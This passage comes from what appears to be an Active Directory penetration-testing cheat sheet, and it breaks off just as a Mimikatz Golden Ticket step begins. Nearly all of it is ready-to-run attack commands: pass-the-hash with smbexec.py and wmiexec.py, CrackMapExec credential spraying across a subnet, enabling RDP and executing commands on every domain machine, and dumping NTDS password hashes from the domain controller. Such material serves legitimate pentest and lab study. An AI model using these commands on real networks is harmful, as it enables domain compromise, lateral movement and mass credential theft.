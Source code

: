 ```bash
smbexec.py domain.local/user@10.10.10.1 -hashes {NTLM HASH}
```

```bash
wmiexec.py domain.local/user@10.10.10.1 -hashes {NTLM HASH}
```


## Post-Exploitation

### Authentication spraying

#### Check acces to all the machines of the domain

Having valid credentials of `Administrator` in the `DC`, we can use the following command to check if we have access to all the machines in the domain:

```bash
cme smb 10.10.10.0/24 -u 'Administrator' -p 'password'
```

We can see how all the users are `(Pwn3d!)`.

#### Activate RDP in all the machines of the domain

In case of wanting to enable the `RDP` service in all the machines of the domain we can do the following:

```bash
cme smb 10.10.10.0/24 -u 'Administrator' -p 'password' -M rdp -o action=enable
```

#### Execute commands in all the machines of the domain

In case of wanting to execute commands in all the machines of the domain, we can use the following command:

```bash
cme smb 10.10.10.0/24 -u 'Administrator' -p 'password' -x 'whoami'
```


### Dump NTDS in the DC

Once we have valid `Administrator` credentials in the `DC`, we can dump the `NTDS` file. This file has all the users and `NTLM` hashes of the domain:

```bash
cme smb 10.10.10.1 -u 'Administrator' -p 'password' --ntds vss
```

We can later use all this hashes to do `PassTheHash`

### Mimikatz

#### Golden Ticket

Once we have the `Mimikatz` binary in the target machine, we can dump the information of the  `krbtgt` user to create a `Golden Ticket`. We will use the following command:
